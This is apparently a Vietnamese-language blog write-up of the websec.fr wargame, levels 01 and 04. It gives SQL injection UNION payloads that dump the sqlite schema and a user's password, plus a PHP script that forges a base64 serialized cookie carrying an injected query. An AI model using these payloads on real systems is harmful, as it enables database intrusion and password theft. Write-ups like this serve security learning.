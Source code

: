 ```yaml
---
layout: post
title:	"websec.fr"
date:	2022-02-02 02:02:02
categories:
    - blog
tags:
    - wargame
    - web
---
```


{% raw %}
# level01

![image](https://user-images.githubusercontent.com/75429369/179963339-bc0671f2-f043-4b12-a74a-3fd5ca44348c.png)

Sqlite3 có query hoàn toàn có thể thực hiện sqli, fuzz số cột thì biết được có 2 cột

```
1 and 1=0 union select sql,sql from sqlite_master -- '
```

![image](https://user-images.githubusercontent.com/75429369/179965358-c36348da-ac37-4f0d-891b-e9f4bb468304.png)

Có password kìa select nó ra với id 1 nào

```
1 and 1=0 union select password,password from users where id = 1 --'
```

![image](https://user-images.githubusercontent.com/75429369/179965685-6e109132-1c56-4b00-9b44-291905d404c7.png)

# level04

Bài cho 2 source code, source thứ nhất có chỗ đáng lưu ý sau

![image](https://user-images.githubusercontent.com/75429369/179966473-82c383f6-4bd9-4dcd-89bf-26e1fca980f9.png)

Kiểm tra có cookie và sẽ unserialize cái cookie đấy. Source thứ hai:

![image](https://user-images.githubusercontent.com/75429369/179966371-845ea550-b87f-4913-8972-ad29b77a98eb.png)

Có function `SQL_query` trỏ vào `$query` có liên kết với source thứ nhất. Với id = 1 thì ta được flag nên giờ chỉ cần select được tới nó là xong, đơn giản chỉ cần modify cái cookie thành serialize của class SQL mà trong đó sẽ có query sqli inject thêm từ query có sẵn trong source (nhớ base64 nữa).

```php
<?php 
class SQL {
  public $query = "SELECT username from users where id=1 UNION SELECT password from users where id=1";
}

$a = new SQL();
echo base64_encode(serialize($a));
?>
```

![image](https://user-images.githubusercontent.com/75429369/179969680-394dcc22-5173-4012-a1b5-cb43b030e870.png)

![image](https://user-images.githubusercontent.com/75429369/179969719-d132c13e-9a11-4ae4-9857-f609ef502872.png)
